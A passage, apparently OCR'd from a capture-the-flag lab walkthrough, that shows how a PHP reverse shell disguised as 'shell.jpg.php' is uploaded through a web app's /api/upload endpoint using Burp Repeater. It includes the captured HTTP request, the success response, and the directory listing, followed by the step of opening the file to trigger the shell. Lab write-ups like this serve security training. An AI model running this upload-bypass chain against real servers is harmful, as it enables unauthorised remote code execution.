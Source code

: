 ```MODIFIED_REQUEST_[FILTER.JS]_IS_REMOVED
						<td id="uploadBtn" class="uploadBtn"><img id="uploadImg" src="assets/imgs/upload-button.png"></td>
					</tr>
				</tbody>
			</table>
		</div>
		<!--Mobile-->
		<img class="uploadBtn" id="mobUploadBtn" src="assets/imgs/upload-button.png">
		<p class="resMsg" id="mobResMsg">&nbsp;</p>
	</body>
</html>
```

>>NOW UPLOAD THE REVERSE-SHELL TO THE UPLOAD.PHP .
>>GO TO BURP AND SEE CHECK FOR THIS IN THE HTTP HISTORY "/api/uploads.php" SEND IT TO REPEATER AND HIT SEND TO SEE THE RESPONSE "SUCCESFUL".

```REQUEST_CAPTURED_WHILE_UPLOADING_THE_REVERSE_SHELL_TO_THE_UPLOADS.PHP
POST /api/upload HTTP/1.1
Host: 10.10.173.195:65000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.173.195:65000/uploads.php
Content-Type: text/plain;charset=UTF-8
Origin: http://10.10.173.195:65000
Content-Length: 7392
Connection: close
Cookie: PHPSESSID=93f5iu1jkdkvi2kd48sq8r1dun

{"name":"shell.jpg.php","file":"data:application/x-php;base64,
```

```RESPONSE_FOR_THE_UPLOADS
HTTP/1.1 200 OK
Date: Thu, 25 Nov 2021 14:55:47 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 53
Connection: close
Content-Type: application/json

{"res":"Success","msg":"File Uploaded Successfully!"}
```

>>AFTER THE SUCCESS RESPONSE GO TO THE GRID DIRECTORY IN THE WEBSITE TO SEE THE FILE WE UPLOADED.
>>THEN CLICK ON THAT FILE TO GET A REVERSE SHELL.

```WEB_CONTENTS_IN_THE_GRID_DIRECTORY
Index of /grid
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[IMG]	shell.jpg.php	2021-11-25 14:55 	5.4K	 
Apache/2.4.29 (Ubuntu) Server at 10.10.173.195 Port 65000
```
